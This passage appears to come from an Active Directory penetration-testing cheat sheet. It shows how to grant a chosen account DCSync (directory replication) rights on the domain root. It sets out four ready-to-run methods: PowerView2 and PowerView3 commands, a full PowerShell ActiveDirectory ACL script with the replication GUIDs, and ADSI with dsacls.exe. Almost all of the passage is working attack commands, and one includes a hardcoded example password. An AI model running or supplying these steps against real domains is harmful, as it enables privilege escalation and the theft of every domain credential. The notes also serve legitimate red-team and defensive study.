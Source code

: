 ```
PV2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```

Using **PowerView3**:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PV3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Using PowerShell **ActiveDirectory**:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Get ACL for the root domain object.
2. Get SID for the account to be given DCSync rights.
3. Create a new ACL and within it set "Replicating Directory Changes" (GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) and "Replicating Directory Changes All" (GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) rights for the SID from (2).
4. Apply changes.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```

Using **ADSI** and **dsacls.exe**:

- [https://gist.github.com/jfmaes/404b45d542fc07db51e6e07d8ebb79b9](https://gist.github.com/jfmaes/404b45d542fc07db51e6e07d8ebb79b9)

```
PS > $dse = [ADSI]"LDAP://Rootdse"
PS > $namingContext = $dse.defaultNamingContext
PS > dsacls.exe $namingContext /G snovvcrash":CA;Replicating Directory Changes All" snovvcrash":CA;Replicating Directory Changes"
```
